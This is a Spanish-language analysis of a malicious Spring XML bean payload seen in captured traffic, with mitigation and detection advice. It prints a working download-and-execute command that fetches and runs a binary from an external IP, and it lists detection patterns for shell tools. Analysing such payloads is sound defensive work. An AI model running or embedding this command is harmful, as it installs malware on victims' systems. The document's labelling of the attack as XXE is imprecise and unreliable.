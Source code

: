 Es un archivo XML con configuración de Spring Beans, una parte del framework Spring usado en aplicaciones Java para definir objetos (beans) y su ciclo de vida.

En este caso, el XML define un bean malicioso que se usa para ejecutar comandos arbitrarios en el sistema de la víctima.

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
```

* Se define un bean con ID `pb`.
* Se utiliza la clase estándar de Java `java.lang.ProcessBuilder`, la cual **permite ejecutar comandos del sistema operativo**.
* `init-method="start"` indica que el método `start()` del objeto `ProcessBuilder` se ejecutará inmediatamente después de la creación del bean.

```xml
<value>bash</value>
<value>-c</value>
<value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
```

Este bloque representa el comando que se ejecutará:

```bash
bash -c "curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker"
```

Este comando hace lo siguiente:

1. Descarga un archivo llamado `docker` desde una IP externa (`128.199.52.72`) al directorio `/tmp`.
2. Le otorga permisos de ejecución.
3. Lo ejecuta.

> Es una forma clásica de **descargar y ejecutar un malware o backdoor**.

**Este ataque se aprovecha de la funcionalidad de deserialización de Spring cuando está mal configurada y **permite cargar directamente archivos XML que definen beans**, incluso si esos beans llaman a clases peligrosas como `ProcessBuilder`.**

Es un caso de:

### Spring XML External Entities (XXE) / RCE

* Similar a una **deserialización insegura**.
* Ocurre cuando se permite al usuario subir o hacer `GET` a un archivo XML que luego es interpretado por Spring como una definición de objetos sin validación ni restricción.

### Mitigación (a nivel de desarrollo y red)


1. **Revisar los servicios expuestos:** Este tráfico va al puerto `8000` en la IP `146.190.21.92`.
2. **Detectar patrones comunes:**
   * Presencia de `ProcessBuilder` en XML.
   * Payloads que invocan `bash`, `curl`, `wget`, `chmod`, `nc`, etc.
3. **Reglas en SIEM/IDS:** Crear reglas para detectar XML con tags `<bean>` usando clases críticas (`java.lang.Runtime`, `java.lang.ProcessBuilder`).

---